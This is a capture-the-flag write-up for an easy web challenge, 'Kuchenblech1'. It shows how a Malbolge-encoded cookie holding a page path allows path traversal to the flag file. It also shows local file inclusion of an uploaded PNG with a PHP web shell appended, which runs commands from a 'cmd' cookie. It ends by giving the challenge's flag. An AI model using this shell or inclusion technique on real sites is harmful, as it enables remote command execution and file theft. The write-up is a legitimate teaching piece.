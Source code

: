 # Kuchenblech1

The description of the challenge said:

>	kuchenblech1
	Category: Web
	Difficulty: Easy (but guessy)
	Author: localo & A2nkF
	This Challenge can only be solved by the chosen one. While many have tried, no one 	has ever managed to solve it. Think you can do it? Then go ahead. But be warned, all your skills are going to be put to the test...
	hax.allesctf.net:5555

The site proposed a login/register page and after the authentication process it showed a real working chat.
A user could post message in this chat, but he also change image profile, which it had to be a PNG.

After a glance at the console, which it shown every request done via web socket to the server, I checked the cookies and the first thing that it have caught my attention was the "nick" cookie value set to the my username.
So, I've tried to change it to "admin", but after refreshing page it's came back with the start value. 
Then I've paid attention to another strange cookie called 'p', its value seemed a base64 sting. 
Decoding the string, it returned another odd string which remember me Malbolge esoteric language. 
```
('%%:^"~}}{zz1Uwutt+0)(Lnmk)"Fhg$#"y?=O_):x[Yotsl2Soh.Oe+vhg9_G$5"!_^W@
```

Decoded string returned_
```
chat.php
```

### Idea

The idea was that the path of the viewed page was stored as value in `p` cookie.

Immediately, I've tried to guess some hidden file, such as admin.php, flag.txt and so on, but none of these files was present.
However, when a page was not found the site was redirected to a fake shell page, with a funny(?) looped Rick Ashley's videoclip , "Never Gonna Give You Up", located in `/public/panic.html`.

[image]

### Exploit

There was two way to solve this chall:

##### 1. Guessing/brute forcing all possible flag file-path.

		In facts, flag was reachable encoding  `../../flag` in the cookie.

##### 2. Uploading a php shell and pointing the cookie to the uploaded file. 

I tried to upload a PNG modified and system returned successfully. Then, I appended a php shellcode into the image:

		```
		<?php 
			if(isset($_COOKIE["cmd"])){

				system($_COOKIE["cmd"]);

			}else{

				system("ls");
			}
		?>
		```
The php code above looks for the "cmd" cookie which contains the command to execute in `system()`.

The last step was to write the image's path into `p` cookie to get the shell.
Even though browser showed profile images as stored in `static/img/profile/` and it gave the new image name in console, I didn't reach the uploaded image via cookie and I got stuck until the end.
After the flag's submissions have been closed, I realized that I missed one piece of the path at the start, `public/`, which I had seen when the site returned me the fake shell.

Therefore, encoding `public/static/img/profile/<image_name>.png` into `p` cookie's value, I had the shell.
> ***NOTE:*** A further encoding step was required from base64 to URLencode.

		[image]

Playing with `cmd` cookie, It revealed me that flag was in `/flag` directory, and this latter was:

Flag:`ALLES{winner_winner_chicken_dinner}`
